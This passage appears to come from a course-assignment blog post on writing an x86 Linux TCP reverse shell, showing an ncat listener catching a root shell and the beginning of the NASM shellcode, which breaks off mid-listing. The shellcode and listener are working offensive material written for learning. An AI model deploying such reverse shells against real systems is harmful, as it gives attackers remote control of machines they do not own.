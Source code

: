 Final Thoughts
==============

When running this shellcode we need to receive the confection in some way. The most straightforward way is to use `ncat` as a server. Ensure that the port is open and un-firewalled on your local machine and simply run `ncat -lv <listening_port>`. Of course the listening port must be the same as the destination port configured in the shellcode. `ncat` is available in the `nmap` package in Debian Linux repositories. 

```
# ncat -lv 4444
Ncat: Version 7.60 ( https://nmap.org/ncat )
Ncat: Generating a temporary 1024-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: SHA-1 fingerprint: 483B 236A 0F4A 2EFD B856 3731 A417 5106 1B43 3456
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 172.16.1.127.
Ncat: Connection from 172.16.1.127:55862.
id
uid=0(root) gid=0(root) groups=0(root)
```

When we execute the payload on our target it will connect back to us and we'll have our shell. 

### Full Source
**[ASM source on Github](https://github.com/fbcsec/slae-assignments/blob/master/2-tcp-reverse-shell/tcp-reverse-shell.asm)**

```nasm
; Simple x86 Linux TCP Reverse Shell
; Author: @fbcsec
; This code was written to fulfill the requirements of the SecurityTube Linux Assembly Expert course:
; http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html
; Student ID: SLAE - 1187

global _start

section .text

_start:

    xor ebx, ebx
    mul ebx

; socket(AF_INET, SOCK_STREAM, 0)
    push eax
    inc ebx
    push ebx
    push byte 0x02
    mov ecx, esp
    mov al, 0x66
    int 0x80
; A file descriptor for this socket is returned in EAX.

; connect(fd, *sockaddr, addrlen (0x10))


    pop edi             ; EDI is now 0x02
    xchg edi, eax       ; sockfd is now in edi
    xchg ebx, eax       ; EAX now contains 0x00000002 (all but al is zero)
    mov al, 0x66        ; EAX now contains 0x00000066
                        ; This block is because we can't predict the file descriptor returned in EAX and must ensure all of EAX's bytes higher than AL are zeroed.


```